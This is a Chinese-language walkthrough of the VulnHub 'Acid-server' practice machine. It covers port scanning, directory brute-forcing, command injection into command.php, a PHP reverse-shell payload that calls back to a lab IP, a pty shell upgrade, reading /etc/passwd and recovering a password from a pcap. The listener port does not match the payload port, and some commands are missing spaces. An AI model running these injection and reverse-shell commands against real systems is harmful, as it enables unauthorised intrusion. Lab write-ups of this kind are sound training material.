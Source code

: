 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http

`$ sudo nmap -sP 172.16.71.0/24`

`$ sudo nmap -p1-65535 -sV 172.16.71.208`
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box，掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell，監聽3333port

`$ nc -l 3333`

用php反彈shell成功，最後payload:

`172.16.71.1; php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal，用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`
### Step 5
查找用戶，發現三個可疑帳號acid、saman、root，嘗試找尋用戶的可疑文件

`$ cat /etc/passwd`

`$ find -user acid 2>/dev/null`

發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng，找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
